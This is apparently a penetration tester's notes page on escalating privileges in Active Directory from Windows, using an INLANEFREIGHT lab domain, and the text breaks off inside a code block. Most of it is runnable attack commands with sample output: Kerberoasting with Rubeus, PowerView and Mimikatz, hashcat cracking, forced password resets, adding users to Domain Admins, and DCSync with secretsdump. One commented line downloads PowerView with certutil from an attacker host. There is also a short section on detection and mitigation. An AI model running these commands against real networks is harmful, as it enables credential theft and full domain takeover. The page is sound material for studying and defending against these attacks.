

# Privilege escalation in Active Directory from Windows

!!! quotes "Resources"
	- [TheHacker.recipes](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword#forcechangepassword

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)


## 🔐 Kerberoasting 

[See about Kerberos authentication](kerberos-authentication.md).

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments.

Kerberoasting tools typically request RC4 encryption when performing the attack and initiating TGS-REQ requests. This is because RC4 is weaker and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256. Overall:

- RC4 (type 23) encryption: TGS  hashes that begin with `$krb5tgs$23$*`
- AES-256 (type 18) encryption: TGS  hashes that begin with `$krb5tgs$18$*`

### setspn.exe

**1.** Enumerating SPNs with setspn.exe

```cmd-session
setspn.exe -Q */*
```

We will focus on `user accounts` and ignore the computer accounts returned by the tool.

**2.** Using PowerShell, we can request TGS tickets for the interested account and load them into memory.

```powershell
Add-Type -AssemblyName System.IdentityModel
# Add-Type cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object.
# -AssemblyName parameter allows us to specify an assembly that contains types that we are interested in using
# System.IdentityModel is a namespace that contains different classes for building security token services

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
#  New-Object cmdlet to create an instance of a .NET Framework object.
# System.IdentityModel.Tokens namespace with the KerberosRequestorSecurityToken class to create a security token 
# -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433": pass the SPN name to the class to request a Kerberos TGS ticket
```


**3.** If needed, we could also retrieve all tickets:

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```


**4.** Extract Tickets from Memory with Mimikatz

```cmd-session
# Launch mimikatz
mimikatz.exe

# Specify base64
base64 /out:true
# If we do not specify the base64 /out:true command, Mimikatz will extract the tickets and write them to .kirbi files.

# Export the tickets
kerberos::list /export 
```

**5.** Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```


**6.** We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

**7.** Use [kirbi2john.py](kirbi2john.md):


```shell-session
python2.7 kirbi2john.py Filename.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > ServiceName_tgs_hashcat
```

**8.** Cracking the Hash with Hashcat

```shell-session
hashcat -m 13100 ServiceName_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.

### PowerView

Let's use PowerView to extract the TGS tickets and convert them to Hashcat format. 

**1.** Enumerating SPNs with PowerView:

```powershell
# certutil -urlcache -f http://$ip/PowerView.ps1 PowerView.ps1
# Import module
Import-Module .\PowerView.ps1

# List SPNs: Option 1
Get-DomainUser * -spn | select samaccountname

# List SPNs: Option 2
Get-NetUser -SPN
```

**2.** Generate a TGS ticker for a specific user:

```powershell
# Option 1
Get-DomainUser -Identity $samAccountName | Get-DomainSPNTicket -Format Hashcat
# Example: 
# Get-DomainUser -Identity MSSQLSvc/SQL01.inlanefreight.local:1433 | Get-DomainSPNTicket -Format Hashcat


# Option 2
Get-DomainSPNTicket -SPN $samAccountName -OutputFormat Hashcat | select -ExpandProperty Hash > file.txt
# Example: 
# Get-DomainSPNTicket -SPN MSSQLSvc/SQL01.inlanefreight.local:1433 -OutputFormat Hashcat | select -ExpandProperty Hash > file.txt
```

**3.** Or obtain all SPN TGS tickets and export them to a CSV

```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\FileName.csv -NoTypeInformation
```


### Rubeus

[See more about Rubeus](rubeus.md).

Gather stats:

```powershell
.\Rubeus.exe kerberoast /stats
```

Request tickets with admincount attribute set to 1:

```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
# /nowrap flag: so that the hash can be more easily copied down for offline cracking using Hashcat. The ""/nowrap" flag prevents any base64 ticket blobs from being column wrapped.
```

 Perform Kerberoasting on a user testspn:
 
```powershell
# Perform Kerberoasting on a user testspn
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

If the received TGS ticket is RC4 (type 23) encrypted, it will be easier to crack. We can check out if the user hast the `msDS-SupportedEncryptionTypes` attribute is set to `0`.  The chart [here](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) tells us that a decimal value of `0` means that a specific encryption type is not defined and set to the default of `RC4_HMAC_MD5`.

```powershell
# Check the encryption of the TGS ticket for user testspn
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes


#serviceprincipalname       msds-supportedencryptiontypes samaccountname
# ----------                 ----------------------------- --------------
# testspn/kerberoast.inlanefreight.local               0   testspn
```

With RC4 (type 23) encryption, this would be the hashcat module:

```shell-session
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```

The results for the AES-256 (type 18) encryption would be `24`:

```powershell
# Check the encryption of the TGS ticket for user testspn
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes


#serviceprincipalname       msds-supportedencryptiontypes samaccountname
# ----------                 ----------------------------- --------------
# testspn/kerberoast.inlanefreight.local               24   testspn
```

With AES (type 18) encryption, this would be the hashcat module:

```shell-session
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```

**We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption  when requesting a new service ticket even though the supported encryption types are listed as AES 128/256.** This may be a failsafe built-in to Active Directory for backward compatibility.

```powershell
# Perform Kerberoasting on a user testspn
.\Rubeus.exe kerberoast /user:testspn /nowrap /tgtdeleg
# /tgtdeleg: specify that we want only RC4 encryption when requesting a new service ticket.
```

> Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. This being said, if we find ourselves in a domain with Domain Controllers running on Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets, which are much more difficult to crack, but rather will allow an attacker to request an RC4 encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption on an SPN account will result in us receiving an AES-256 (type 18) service ticket, which is substantially more difficult (but not impossible) to crack, especially if a relatively weak dictionary password is in use.

> In addition, It is possible to edit the encryption types used by Kerberos. This can be done by opening Group Policy, editing the Default Domain Policy, and choosing: Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options, then double-clicking on Network security: Configure encryption types allowed for Kerberos and selecting the desired encryption type allowed for Kerberos. Removing all other encryption types except for RC4_HMAC_MD5 would allow for the above downgrade example to occur in 2019. Removing support for AES would introduce a security flaw into AD and should likely never be done. 


### Mitigating Kerberoasting

Kerberoasting requests Kerberos TGS tickets with RC4 encryption, which should not be the majority of Kerberos activity within a domain. When Kerberoasting is occurring in the environment, we will see an abnormal number of TGS-REQ and TGS-REP requests and responses, signaling the use of automated Kerberoasting tools.

omain controllers can be configured to log Kerberos TGS ticket requests by selecting [Audit Kerberos Service Ticket Operations](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-kerberos-service-ticket-operations) within Group Policy. Doing so will generate two separate event IDs:

-  [4769](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769): A Kerberos service ticket was requested, 
- and [4770](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4770): A Kerberos service ticket was renewed.

10-20 Kerberos TGS requests for a given account can be considered normal in a given environment. A large amount of 4769 event IDs from one account within a short period may indicate an attack.

Some other remediation steps include restricting the use of the RC4 algorithm, particularly for Kerberos requests by service accounts. This must be tested to make sure nothing breaks within the environment. Furthermore, Domain Admins and other highly privileged accounts should not be used as SPN accounts (if SPN accounts must exist in the environment).

### Kerberos: Forging the PAC

This was a flaw in the Kerberos protocol, which could be leveraged along with standard domain user credentials to elevate privileges to Domain Admin. A Kerberos ticket contains information about a user, including the account name, ID, and group membership in the Privilege Attribute Certificate (PAC). The PAC is signed by the KDC using secret keys to validate that the PAC has not been tampered with after creation.

The vulnerability allowed a forged PAC to be accepted by the KDC as legitimate. It can be exploited with tools such as the [Python Kerberos Exploitation Kit (PyKEK)](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) or the Impacket toolkit.


### ❗ Kerberos Constrained Delegation [PENDING]

### ❗ Kerberos Unconstrained Delegation [PENDING]

### ❗ Kerberos Resource-Based Constrained Delegation (RBCD) [PENDING]


### The Golden Ticket attack

**The attack in a nugshell:** First, we need to obtain the NT hash for the KRBTGT account, which is a service account for the Key Distribution Center (KDC) in Active Directory. The account KRB (Kerberos) TGT (Ticket Granting Ticket) is used to encrypt/sign all Kerberos tickets granted within a given domain. Domain controllers use the account's password to decrypt and validate Kerberos tickets. The KRBTGT account can be used to create Kerberos TGT tickets that can be used to request TGS tickets for any service on any host in the domain. This is also known as the Golden Ticket attack and is a well-known persistence mechanism for attackers in Active Directory environments.  The only way to invalidate a Golden Ticket is to change the password of the KRBTGT account.


### Kerberos "Double Hop" Problem

**Kerberos "Double Hop" Problem**: The "Double Hop" problem often occurs when using WinRM/Powershell or Evil-WinRM, since the default authentication mechanism only provides a ticket to access a specific resource (winrm). When we use Kerberos to establish a remote session, we are not using a password for authentication, and the user's ticket-granting service (TGS) ticket is sent to the remote service, but the TGT ticket is not sent. Therefore, when we try to authenticate over a second resource, the machine can not pull any hash from memory or generate any TGS to authenticate us.

In a nutshell, **Kerberos "Double Hop" Problem** arises when we try to issue a multi-server command, our credentials will not be sent from the first machine to the second, as the user's password  was never cached as part of their login.  In other words, when authenticating to the target host, the user's ticket-granting service (TGS) ticket is sent to the remote service, which allows command execution, but the user's TGT ticket is not sent. When the user attempts to access subsequent resources in the domain, their TGT will not be present in the request, so the remote service will have no way to prove that the authentication attempt is valid, and we will be denied access to the remote service.

Example once we are connected with Evil-WinRm:

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> import-module .\PowerView.ps1

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
```

However this does not happen with DRP connections, whereas our TGT is sent during the authentication process to obtain a service ticket for the RDP session. It is then cached on the remote host for subsequent use. This allows seamless access to domain resources from the remote host.

#### Workaround #1: unconstrained delegation

If *unconstrained delegation* is enabled on a server, it is likely we won't face the "Double Hop" problem. In this scenario, when a user sends their TGS ticket to access the target server, their TGT ticket will be sent along with the request. The target server now has the user's TGT ticket in memory and can use it to request a TGS ticket on their behalf on the next host they are attempting to access.

#### Workaround #2:  Evil-WinRM and PSCredential Object

 We can use a "nested" Invoke-Command to send credentials (after creating a PSCredential object) with every request.

```powershell
# Set up: we are connected to the host machine from our attacker machine via Evil-WinRM
# 1. We create a SecureString Object with our creds
$SecPassword = ConvertTo-SecureString '$password' -AsPlainText -Force
# Example: 
# $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('$domain\$userSamAccountName', $SecPassword)
# Example:
# $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)

# 2. We send the nested Invoke-Command
Invoke-Command -ComputerName "$hostname.$domainName" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
# Example: 
# Invoke-Command -ComputerName "MS01.INLANEFREIGHT.LOCAL" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
```

```
# More things we can do. Import PowerView module and embed creds in all commands. In the example we are requesting the Service Principals. If we try without specifying the `-credential` flag, we get an error message.
import-module .\PowerView.ps1
get-domainuser -spn -credential $Cred | select samaccountname
```

#### Workaround #3: Win-RM and Register PSSession Configuration

>Note: We cannot use `Register-PSSessionConfiguration` from an evil-winrm shell because we won't be able to get the credentials popup. Furthermore, if we try to run this by first setting up a PSCredential object and then attempting to run the command by passing credentials like `-RunAsCredential $Cred`, we will get an error because we can only use `RunAs` from an elevated PowerShell terminal. Therefore, this method will not work via an evil-winrm session as it requires GUI access and a proper PowerShell console. Furthermore, in our testing, we could not get this method to work from PowerShell on a Parrot or Ubuntu attack host due to certain limitations on how PowerShell on Linux works with Kerberos credentials.

```powershell
# Establish a WinRM session on the remote host.
Enter-PSSession -ComputerName $hostName.$domain -Credential $domain\$user
# Example
# Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm
```

Due to the double hop problem, we can only interact with resources in our current session but cannot access the DC directly using PowerView. One trick we can use here is registering a new session configuration using the [Register-PSSessionConfiguration](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/register-pssessionconfiguration?view=powershell-7.2) cmdlet.

```powershell
# REgister a new session
Register-PSSessionConfiguration -Name $SessionName -RunAsCredential $domain\$userSamAccountName
# Example:
# Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm

# Once this is done, we need to restart the WinRM service. From the PS session:
Restart-Service WinRM
# This will kick us out, so we'll start a new PSSession using the named registered session we set up previously.

# After we start the session, we can see that the double hop problem has been eliminated.
Enter-PSSession -ComputerName $hostName -Credential $domain\$userSamAccountName -ConfigurationName  $sessionName
# Example:
# Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess

# We can now run tools such as PowerView without having to create a new PSCredential object. For example:
get-domainuser -spn | select samaccountname
```


## 🛂  Access Control List (ACL)Abuse 

[See more about Access Control List](access-control-list.md).

During an assessment where the client has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. 

Some example Active Directory object security permissions are as follows.

- `ForceChangePassword` abused with `Set-DomainUserPassword`
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `Addself` abused with `Add-DomainGroupMember`

We can use ACL attacks for:

- Lateral movement
- Privilege escalation
- Persistence

### Enumerating ACLs 

#### PowerView

```powershell
# First import PowerView module
Import-Module .\PowerView.ps1

# Now enumerate
Find-InterestingDomainAcl
```

Now, there is a way to use a tool such as PowerView more effectively -- by performing targeted enumeration starting with a user that we have control over. 

```powershell
# First import PowerView module
Import-Module .\PowerView.ps1

# Obtain the SID of the user you have control on, for instance wley, and set it to variable $sid
$sid = Convert-NameToSid wley

#  Find all domain objects that our user has rights over 
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
# -ResolveGUIDs: PowerView flag that will return the ObjectAceType property in a readable way and not as a GUID value that is not human readable.

# Lists of objects which you have Force-Change-Password right over. First, get your current user’s sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have _Force-Change-Password_.
get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.objectacetype -eq "User-Force-Change-Password")}

# Examine the rights that a user has over a group
$sid = Convert-NameToSid $userSamAccountName
Get-DomainObjectACL -Identity "$groupName" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}

# Examine the rights that a user has over another user
$sid = Convert-NameToSid $user1SamAccountName
Get-DomainObjectACL -Identity "$user2SamAccountName" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```

Result:

```powershell
AceQualifier           : AccessAllowed
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
ObjectSID              : S-1-5-21-3842939050-3880317879-2865463114-1176
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3842939050-3880317879-2865463114-1181
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit
InheritedObjectAceType : All
OpaqueLength           : 0
```

The ObjectAceType `User-Force-Change-Password` means that we have the right to modify `Dana Amundsen`'s password.

Without the PowerView flag `-ResolveGUIDs`, we would get `ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529`, the GUID. We can google and get to [this microsoft page](https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password).  We can also perform a Reverse Search & Map to a GUID Value:

```powershell
$guid= "00299570-246d-11d0-a768-00aa006e0529"

Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```


#### Powershell

```powershell
# Create a List of Domain Users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

# For each user, use the Get-Acl cmdlet to retrieve ACL information of every user with the Get-ADUser cmdlet
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

# Once we have this data, we could follow the same methods shown above to convert the GUID to a human-readable format to understand what rights we have over the target user.
$guid= "00299570-246d-11d0-a768-00aa006e0529"

Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl

```

#### Bloodhound

See [bloodhound](bloodhound.md).

Steps: 

1.  Launch bloodhound. Update the zip/json files. 
2. Set a user  as the starting node, select the `Node Info` tab and scroll down to `Outbound Control Rights`.  
3. This option will show us objects we have control over directly, via group membership, and the number of objects that our user could lead to us controlling via ACL attack paths under `Transitive Object Control`.

By right-clicking on the line between  two objects, a menu will pop up.


### ForceChangePassword


This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the target user.

#### Change password (plaintext)
The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```powershell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force 

Set-DomainUserPassword -Identity $TargetUser -AccountPassword $NewPassword

runas /$TargetUser:[domain\$TargetUser] cmd.exe
```

We can also use mimikatz:

```powershell
.\mimikatz.exe
privilege::debug
lsadump::setntlm
```

#### Change password using SecureString Object

```powershell
# Wley will change the password of damundsen. First, open Powershell as Wley
# Creating a PSCredential Object
$SecPassword = ConvertTo-SecureString '$wleyPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 

# Creating a SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Changing the User's Password
cd C:\Tools\
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

Note: The **`SecureString` object** (`$SecPassword`) is associated with the **user `wley`** because it is used to create a **`PSCredential` object**, which represents a specific user's credentials. These credentials are used afterwards with the  `Set-DomainUserPassword` command, whereas the `-Credential` parameter ensures that all actions taken within that cmdlet use the privileges of the `wley` account.

###  AddMember

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.

Let's imagine we have gained access to the user damundsen via the ForceChangePassword abuse. Now we can continue using PowerView to take this attack further:

```powershell
$sid2 = Convert-NameToSid damundsen

Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```

See the results:

```powershell
AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-4022
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1176
AccessMask            : 131132
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

#### GenericWrite


Our user damundsen has GenericWrite privileges over the `Help Desk Level 1` group. This means, among other things, that the attacker can add a user/group/computer to a group.

=== "Linux"

    ```bash
    # With net and cleartext credentials (will be prompted) 
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST" 
    
    # With net and cleartext credentials 
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST" 
    
    # With Pass-the-Hash 
    pth-net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
    ```

=== "Windows"

    ```powershell
    # Command line
	net group 'Help Desk Level 1' $user /add /domain 
	
	# Powershell: Active Directory module 
	Add-ADGroupMember -Identity 'Help Desk Level 1' -Members $user
	
	# Powershell: PowerSploit module 
	Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members $user
    ```

=== "Windows with SecureString"

	```powershell
	# Creating a SecureString Object using damundsen
	$SecPassword = ConvertTo-SecureString '$damundsenPassword' -AsPlainText -Force
	$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
		
	# Add damundsen to the group
	Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
		
	# Confirming damundsen was Added to the Group
	Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName


#### GenericAll


Investigating the Help Desk Level 1 Group with Get-DomainGroup: 

```powershell
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof

# memberof                                                      #                 
# --------                                                      
# CN=Information Technology,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
```

The Help Desk Level 1 group is nested into the Information Technology group.  

Investigating the Information Technology Group

```powershell
$itgroupsid = Convert-NameToSid "Information Technology"

Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose
```

Results:
```powershell
AceType               : AccessAllowed
ObjectDN              : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-1164
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-4016
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

Members of the `Information Technology` group have `GenericAll` rights over the user `adunn`, which means we could:

1. Modify group membership
2. Force change a password
3. Perform a targeted Kerberoasting attack and attempt to crack the user's password if it is weak

##### 1. Modify group membership

In this case the user CT059 will be adding the user AB920 as Domain Admin

```powershell
$SecPassword = ConvertTo-SecureString 'charlie1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\CT059', $SecPassword)

Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'AB920' -Credential $Cred
```


##### 3. Kerberoasting attack 

```powershell
# Creating a SecureString Object using damundsen
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 

# Creating a Fake SPN
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

#  Kerberoasting with Rubeus
.\Rubeus.exe kerberoast /user:adunn /nowrap

# Crack it
hashcat -m 13100 $filename /usr/share/wordlists/rockyou.txt
```


Clean up:

```powershell
# 1. Removing the Fake SPN from adunn's Account
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

# 2. Remove the damundsen user from the Help Desk Level 1 group
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
# Confirming damundsen was Removed from the Group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

### DCSync

DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

**1.** Use Get-DomainUser to View the users's Group Membership:

```powershell
Get-DomainUser -Identity $userSamAccountName  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

**2.** Check if the user has replication rights:

```powershell
# we obtained the sid from previous command
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.


####  Linux:  Impacket’s secretsdump.py

```bash
secretsdump.py -outputfile $filename -just-dc $domain/$userSamAccountName@$ipDomainController
# As an example:
# secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
# -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
# -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
# just-dc-user <USERNAME> to only extract data for a specific user
